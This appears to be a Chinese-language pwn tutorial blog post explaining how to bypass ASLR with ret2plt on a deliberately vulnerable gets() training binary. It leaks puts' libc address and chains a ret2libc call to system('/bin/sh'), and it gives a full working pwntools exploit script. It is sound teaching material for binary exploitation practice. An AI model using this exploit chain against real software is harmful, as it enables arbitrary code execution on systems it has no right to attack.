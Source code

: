 ```yaml
---
title: ret2plt 绕过 ASLR
subtitle:
date: 2023-08-23T17:21:36+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


绕过 ASLR

<!--more-->

## 0x01 概述

这次没有可以直接利用的信息了，你必须使用前面讲到的 ret2plt 技术。在进一步了解之前，请先自己
尝试一下。

{{< link href="/pwn_assets/ret2plt.zip" content="ret2plt.zip" title="Download ret2plt.zip" download="ret2plt.zip" card=true >}}

```c {title="source.c"}
#include <stdio.h>

void vuln() {
  puts("Come get me");

  char buffer[20];
  gets(buffer);
}

int main() {
  vuln();

  return 0;
}
```

## 0x02 分析

我们需要以某种手段泄漏 ASLR 基地址。在这题中，唯一可行的方法是 ret2plt。`gets()`
可以读取任意大小的数据，所以不用担心栈空间不足的问题。我们可以充分利用 `gets()`
构造 ret2plt 的 exploit 链。通过返回到 PLT 表，可以泄漏需要的地址信息。

因此，在栈空间充足的情况下，使用 ret2plt 是最合适的手段。

## 0x03 利用

基本信息：

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()
```

现在我们要构造一个可以泄漏 `puts` 真实地址的 payload。根据之前讲到的，调用函数的
PLT 条目等同于调用函数本身。传入 `puts@got` 作为参数，会打印出 `puts` 在 `libc` 中的
实际地址，因为 C 语言传递字符串参数传递的是指针。我们知道 `puts@got` 就是一个已知
地址，可以打印。这样就可以通过 `puts@plt` 间接获取 `puts@got` 中的内容。

```python
p.recvline()  # 只接收第一个输出

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)
```

调用 `main` 的目的是让程序可以重新运行。如果我们直接返回到一个随机的地址，会让程序崩溃。
再次调用 `main` 本质上是重启了程序，这样可以使程序在泄漏 `libc` 的基地址后继续运行。然后
我们就可以进行 ret2libc 攻击。

```python
p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)
```

这里需要注意 `puts` 会一直输出，直到遇到空字节，所以它不只是泄漏了 GOT 表中的地址。
但我们只关心第一个，也就是 GOT 表里面的前 4 个字节。使用 `u32` 转换为地址。之后，
忽略调用 `main` 时产生的其它内容。我们只取关键信息，过滤无用数据。

从这里开始，我们只需要计算出 `libc` 的基地址并执行基本的 ret2libc：

```python
libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],  # 虽然这里不需要退出，但这样做更好
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

### 1x01 最终 Exploit

```python {title="exp.py"}
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()

p.recvline()  # 只接收第一个输出

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],  # 虽然这里不需要退出，但这样做会更好
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

## 0x04 64-bit

你知道该怎么做 :) 在 64-bit 上尝试同样的操作。如果需要，你可以使用 pwntools 的 ROP 功能；
或者，为了确保你理解调用约定，请大胆地同时执行这两个操作 :P

{{< link href="/pwn_assets/ret2plt-64.zip" content="ret2plt-64.zip" title="Download ret2plt-64.zip" download="ret2plt-64.zip" card=true >}}

